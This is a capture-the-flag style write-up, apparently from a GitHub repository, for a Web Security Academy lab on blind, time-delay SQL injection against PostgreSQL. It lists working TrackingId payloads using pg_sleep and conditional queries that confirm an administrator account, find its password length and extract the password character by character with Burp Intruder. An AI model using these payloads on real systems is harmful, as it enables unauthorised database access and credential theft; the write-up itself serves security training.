 # SQL Injection Lab 15 - Blind SQL injection with time delays and information retrieval

## Manual Solution

### 1. Access the Lab
- Access the Web Security Academy lab.

### 2. Initial Setup
- Open Burp Suite and intercept a GET request to the website.
- Send the captured request to the Repeater for testing.

### 3. Add the time delay payload to the trackingId parameter
- TrackingId=a`' || (SELECT pg_sleep(10))--`
- pg_sleep(10) is a function that sleeps for 10 seconds.
- || is the string concatenation operator in PostgreSQL that allows chaining multiple SQL expressions

### 4. Add the information retrieval payload to the trackingId parameter
- TrackingId=a`' || (SELECT CASE WHEN EXISTS (SELECT username FROM users WHERE username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END) --`
- This payload checks if the username 'administrator' exists in the users table.

### 5. Determine the password length
- Add trackingID parameter: TrackingId=a`' || (SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username = 'administrator') < 1 THEN pg_sleep(10) ELSE pg_sleep(0) END) -- `
- Use Intruder with:
    * Payload position: `1`
    * Payload type: Numbers (1-60)
- You can analyze the response to determine the password length.

### 6. Append the trackingId parameter to the request
- TrackingId=a`' OR (SELECT CASE WHEN (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a' THEN pg_sleep(10) ELSE pg_sleep(0) END) --` 
- Then send the request to the intruder.
     * First position: `SUBSTRING(password,[position],1)`
       - Payload type: Numbers (1 to password length)
     * Second position: Character to test
       - Payload type: Brute forcer (a-z, 0-9)

### 7. Send the request
- Send the request to the Repeater.
- You will see the congratulations message after 10 seconds.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_15.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

